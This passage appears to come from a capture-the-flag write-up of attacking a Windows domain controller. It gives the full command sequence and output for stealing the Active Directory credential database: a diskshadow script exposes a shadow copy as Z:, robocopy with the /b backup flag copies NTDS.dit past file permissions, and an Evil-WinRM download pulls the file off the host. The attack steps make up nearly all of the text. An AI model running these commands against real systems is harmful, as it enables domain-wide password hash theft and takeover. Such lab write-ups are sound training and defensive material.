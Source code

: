 ```

```

Using diskshadow we run the script and we end with a shadow drive Z:

```
*Evil-WinRM* PS C:\temp> diskshadow /s pwn.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/1/2020 1:30:41 AM

-> set context persistent nowriters
-> add volume c: alias pwn
-> create
Alias pwn for shadow ID {4aa7fb85-c839-4e4e-98e9-a949bfb83735} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7} set as environment variable.

Querying all shadow copies with the shadow copy set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7}

	* Shadow copy ID = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}		%pwn%
		- Shadow copy set: {bf423ef5-badb-4ae0-aa45-53ae68e595f7}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/1/2020 1:30:44 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %pwn% z:
-> %pwn% = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}
The shadow copy was successfully exposed as z:\.
->
```

We'll use robocopy with the /b flag to ignore file permissions and copy the NTDS.dit file from the exposed disk shadow.

```
Evil-WinRM* PS C:\temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, September 11, 2020 5:43:33 PM
   Source : z:\windows\ntds\
     Dest : C:\temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                   1	z:\windows\ntds\
	    New File  		  18.0 m	ntds.dit
	    
*Evil-WinRM* PS C:\temp> download ntds.dit
Info: Downloading C:\temp\ntds.dit to ntds.dit
```
